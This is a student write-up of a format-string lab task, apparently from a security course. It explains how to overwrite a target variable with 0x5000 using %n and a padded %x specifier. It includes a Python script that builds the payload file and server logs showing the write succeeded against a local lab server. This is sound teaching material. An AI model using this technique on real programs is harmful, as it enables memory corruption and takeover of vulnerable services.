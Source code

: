 ### Task 3.B

In this task, instead of changing the content of the *target* variable to an arbitrary value, we want to change it to a specific value `0x5000`. To do this, we followed the same logic we used in **Task 3.A** by taking advantage of the `%n` format specifier.

We know that the integer value of `0x5000` is 20480. For the content of the *target* variable to be changed to `0x5000` we have to fill the format string with 20480 characters up to the `%n` format specifier. This is where we face a problem: the buffer size only allocates 1500 bytes. So what we have to do is to include in the format string the specifier `%x` with a width of 20475 characters, in order to specify the number of characters that are written to represent in hexadecimal a given value: `%20475$x`.

We needed to change the python script to place the address of the *target* variable at the beginning of the format string, plus the format specifier `%20475x\n%64$n`:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20475x" + "\n" + "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The value 20475 was reached from the 20480 characters needed, less 4 bytes, which represent the size occupied by the address at the beginning of the format string, minus 1 byte from the \n, for the line with the new value to be at the bottom.

Finally, when executing the python script, we obtain the following result, where we can observe that the value of the *target* variable change to `0x5000`:

```bash
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd0d0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffcff8
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | h
(..empty space..)
                                                                           11223344
server-10.9.0.5  | The target variable's value (after):  0x00005000
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```